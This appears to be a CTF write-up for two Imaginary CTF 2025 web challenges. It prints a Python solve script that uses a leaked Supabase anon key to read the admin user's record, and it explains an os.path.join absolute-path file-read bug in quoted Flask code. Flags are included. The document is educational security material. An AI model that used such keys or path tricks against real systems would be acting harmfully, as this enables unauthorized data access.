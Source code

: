 -----------

### Imaginary CTF 2025

-----------

![image](https://github.com/user-attachments/assets/a6341580-8aea-42ec-8676-11eda1a5dcc2)

-------------

### Challenges 

-------------

- Web-:
  - Imaginary notes
  - Codenames 1

---------------

### Imaginary-notes

----------------

![image](https://github.com/user-attachments/assets/5a5b57d5-e346-4a49-8be8-9b1b2e1e779b)

-----------------

- We have a Nextjs application.I checked the `view-source` for minified js files and discovered one.

![image](https://github.com/user-attachments/assets/463cf46a-cc68-4ab5-9789-175a7e7c9fd9)

- I visited the page and discovered a minified code with a supabase url and an api key.

![image](https://github.com/user-attachments/assets/6473f555-28f2-4b85-880c-e01c1326433c)

- Solve.py-:

```python3
#! /usr/bin/env python3
from  supabase import Client,create_client

url = "https://dpyxnwiuwzahkxuxrojp.supabase.co"
key = "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpc3MiOiJzdXBhYmFzZSIsInJlZiI6ImRweXhud2l1d3phaGt4dXhyb2pwIiwicm9sZSI6ImFub24iLCJpYXQiOjE3NTE3NjA1MDcsImV4cCI6MjA2NzMzNjUwN30.C3-ninSkfw0RF3ZHJd25MpncuBdEVUmWpMLZgPZ-rqI"

client =  create_client(url,key)
data = client.table("users").select("*").eq("username","admin").execute()
print(data)
```

- Flag-: ```ictf{why_d1d_1_g1v3_u_my_@p1_k3y???}```

![image](https://github.com/user-attachments/assets/795fd795-7725-4272-9ca8-cdf1c4d4b376)

--------------------

### Codenames 1

--------------------

![image](https://github.com/user-attachments/assets/f620acb4-0cec-405e-84e3-68bc09581ecb)

--------------------

- The main sink is in route `/create_game` and in body query `language`.

```python3
@app.route('/create_game', methods=['POST'])
def create_game():
    if 'username' not in session:
        return redirect(url_for('index'))
    # generate unique code
    while True:
        code = ''.join(random.choices(string.ascii_uppercase + string.digits, k=6))
        if code not in games:
            break
    # prepare game with selected language word list
    # determine language (default to first available)
    language = request.form.get('language', None)
    if not language or '.' in language:
        language = LANGUAGES[0] if LANGUAGES else None
    # load words for this language
    word_list = []
    if language:
        wl_path = os.path.join(WORDS_DIR, f"{language}.txt")
        try:
            with open(wl_path) as wf:
                word_list = [line.strip() for line in wf if line.strip()]
        except IOError as e:
            print(e)
            word_list = []
    # fallback if needed
    if not word_list:
        word_list = []
```
- The variable gets passed to the second argumnet in `os.path.join()` which an attacker can control to file read in such a way that abuses `os.path.join()`'s quirk. If the first argument is a relative path and the second path is an absolute one.The function picks the second one which is an absolute and nullifies the first argument. e.g

![image](https://github.com/user-attachments/assets/e5bfe061-b0fb-40b1-8228-a5f48e3df356)

- Exploiting it-:

![image](https://github.com/user-attachments/assets/7d288798-3711-4744-8039-e2a3f537c82b)


- Flag-: ```ictf{common_os_path_join_L_b19d35ca}```

![image](https://github.com/user-attachments/assets/a1591cc9-f887-41f3-ae8e-468b2a9e6073)

----------------

### Certificate

----------------

![image](https://github.com/user-attachments/assets/db68475e-987a-4c8a-835e-98a3952cac32)

----------------

- 

----------------



